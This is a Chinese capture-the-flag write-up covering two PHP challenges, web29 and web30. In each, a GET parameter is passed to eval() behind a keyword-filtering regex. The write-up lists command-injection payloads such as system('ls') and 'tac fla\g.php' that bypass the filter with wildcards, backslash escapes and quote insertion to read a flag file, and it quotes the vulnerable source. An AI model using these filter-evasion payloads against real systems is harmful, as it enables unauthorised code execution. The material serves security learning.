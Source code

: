 ### web29

<img src="https://s2.loli.net/2022/12/23/l7o8SJGUMkHqdpb.png" alt="image-20221223170033041" style="zoom: 33%;" />

分析代码，我们发现可以使用get传参将代码传入，使用c变量接收，然后传入eval()函数中进行代码执行

此处使用正则表达式过滤了flag关键字，我们可以使用通配符绕过

首先使用payload：

```php
?c=system('ls');
```

<img src="https://s2.loli.net/2022/12/23/LGTgM6KQOmfqaED.png" alt="image-20221223171221764" style="zoom:25%;" />

查询到当前目录下存在flag.php,所以我们只需要去访问改文件即可

payload:

```php
?c=system('cat f*');
?c=system('tac f*');
?c=system('tac fla\g.php');    //使用反斜杠转义绕过正则
?c=echo `nl fla''g.php`;    //使用引号干扰正则匹配
...
```

即可得到flag

<img src="https://s2.loli.net/2022/12/23/3tJdeTKc1sYayML.png" alt="image-20221223172027051" style="zoom: 25%;" />



#### eval()函数

<img src="https://s2.loli.net/2022/12/23/NQLMtjE8yo1cPs4.png" alt="image-20221223170257027" style="zoom:33%;" />



### web30

```php
 <?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```
